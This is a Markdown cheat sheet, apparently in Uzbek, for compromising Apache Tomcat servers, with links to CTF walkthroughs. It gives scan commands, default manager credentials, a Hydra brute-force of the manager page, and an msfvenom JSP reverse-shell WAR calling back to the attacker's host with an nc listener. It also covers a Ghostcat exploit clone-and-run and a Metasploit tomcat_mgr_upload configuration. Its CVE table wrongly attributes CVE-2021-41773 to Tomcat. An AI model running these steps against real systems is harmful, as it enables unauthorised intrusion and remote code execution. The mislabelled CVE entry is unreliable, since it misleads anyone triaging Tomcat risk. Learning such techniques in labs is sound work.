 1. **Version - Apache Tomcat/ Coyote JSP Engine 1.1**   
https://www.hackingarticles.in/hack-the-box-jerry-walkthrough/

2. **Version - Apache Tomcat 9.0.30**     
https://medium.com/@Z3pH7/tryhackme-tomghost-write-up-thm-3ba961fa0f44   

3. **My Tomcat Host:1**   
https://medium.com/@z6157881/my-tomcat-host-1-walkthrough-vulnhub-d267b36db003   

4. https://www.hackingarticles.in/tabby-hackthebox-walkthrough/   

5. https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00   

Apache Tomcatda eng ko‘p uchraydigan zaifliklar:  

|     CVE        |	              Tavsif	              |  Ta’sir qilingan versiyalar  |
|----------------|--------------------------------------|------------------------------|
|CVE-2020-1938   |	Ghostcat – Fayl o‘qish va bajarish  |	Tomcat 6-9 (8009 port)       |
|CVE-2017-12615  | 	Remote Code Execution (RCE)	        | Tomcat 7.0.79                |
|CVE-2019-0232   |	Windows RCE	                        | Tomcat 9.0.17                |
|CVE-2021-41773  |	Path Traversal	                    | Tomcat 9.0.30-9.0.50         |    

Tomcat odatda 8080, 8009, yoki 80 portlarida ishlaydi. nmap yordamida portlarni skanerlash:    
```
nmap -sV -sC -p 8080,8009,80 <target_ip>
```   
Brauzerda `http://<target_ip>:8080` sahifasini oching.     
1. Admin-GUI (Eskirgan) `http://<target_ip>:8080/admin`  
2. Manager-GUI `http://<target_ip>:8080/manager/html`, `http://<target_ip>:8080/host-manager/html`

Nikto skaneri bilan avtomatik tekshirish:  
```
nikto -h http://[TARGET_IP]:8080
```    

**Standart login ma'lumotlari**   
|   Username	 |   Password  |
|--------------|-------------|
|    tomcat	   |    tomcat   |
|    admin	   |    admin    |
|   manager	   |   manager   |
|     root	   |     root    |     

Hydra yordamida bruteforce qilish:   
```
hydra -L users.txt -P passwords.txt [TARGET_IP] http-get /manager/html
```

**1. Serverga shell joylashtirish (Remote Code Execution - RCE)**   
 - msfvenom yordamida Tomcat uchun WAR shell yarating:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -f war > shell.war
```
 - Netcat yordamida teskari ulanishni kutish:
```
nc -lvnp 4444
```
 - WAR faylni Tomcatga yuklash. http://[TARGET_IP]:8080/manager/html deploy bo‘limida shell.war faylni yuklang. Shellni ishga tushirish uchun quyidagi URL'ni oching: http://[TARGET_IP]:8080/shell/
      
**2. Ghostcat (CVE-2020-1938) ekspluatatsiyasi**   
Agar 8009 porti ochiq bo‘lsa, bu AJP protokoli bo'lib, Tomcat zaifligini ekspluatatsiya qilish mumkin.  
 - Ghostcat ekspluatini yuklash va ishlatish.
```
git clone https://github.com/YDHCUI/CVE-2020-1938
cd CVE-2020-1938
```   
```
python3 ajpShooter.py [TARGET_IP] 8009
```
```
python3 ajpShooter.py -u / --upload shell.war
```   

**3. Metasploit orqali Tomcat buzib kirish (Tomcat manager hujumi)**   
```
msfconsole
```

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS [TARGET_IP]
set LHOST [YOUR_IP]
set LPORT 4444
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```
